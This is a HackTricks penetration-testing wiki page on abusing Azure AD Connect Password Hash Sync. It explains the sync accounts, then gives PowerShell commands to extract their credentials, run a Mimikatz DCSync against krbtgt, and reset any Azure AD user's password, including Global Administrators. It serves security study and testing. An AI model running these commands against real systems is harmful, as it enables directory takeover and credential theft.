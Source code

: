 # PHS - Password Hash Sync

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Basic Information

**Password hash synchronization** is one of the sign-in methods used to accomplish hybrid identity. Azure AD Connect synchronizes a hash, of the hash, of a user's password from an on-premises Active Directory instance to a cloud-based Azure AD instance.

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

It's the **most common method** used by companies to synchronize an on-prem AD with Azure AD.

All **users** and a **hash of the password hashes** are syncronized from the on-prem to Azure AD. However, **clear-text passwords** or the **original** **hashes** aren't sent to Azure AD.\
Moreover, **Built-in** security groups (like domain admins...) are **not synced** to Azure AD.

The **hashes syncronization** occurs every **2 minutes**. However, by default, **password expiry** and **account** **expiry** are **not sync** in Azure AD. So, a user whose **on-prem password is expired** (not changed) can continue to **access Azure resources** using the old password.

When an on-prem user wants to access an Azure resource, the **authentication takes place on Azure AD**.

**PHS** is required for features like **Identity Protection** and AAD Domain Services.

## Pivoting

When PHS is configured some **privileged accounts** are automatically **created**:

* The account **`MSOL_<installationID>`** is automatically created in on-prem AD. This account is given a **Directory Synchronization Accounts** role (see [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) which means that it has **replication (DCSync) permissions in the on-prem AD**.
* An account **`Sync_<name of on-prem ADConnect Server>_installationID`** is created in Azure AD. This account can **reset password of ANY user** (synced or cloud only) in Azure AD.

Passwords of the two previous privileged accounts are **stored in a SQL server** on the server where **Azure AD Connect is installed.** Admins can extract the passwords of those privileged users in clear-text.

If the **server where Azure AD connect is installed** is domain joined (recommended in the docs), it's possible to find it with:

```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### AzureAD -> On-prem

```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

### On-prem -> AzureAD

Compromising the `Sync_*` account it's possible to **reset the password** of any user (including Global Administrators)

```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```

It's also possible to **modify the passwords of only cloud** users (even if that's unexpected)

```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

### Seamless SSO

It's possible to use Seamless SSO with PTA, which is vulnerable to other abuses. Check it in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
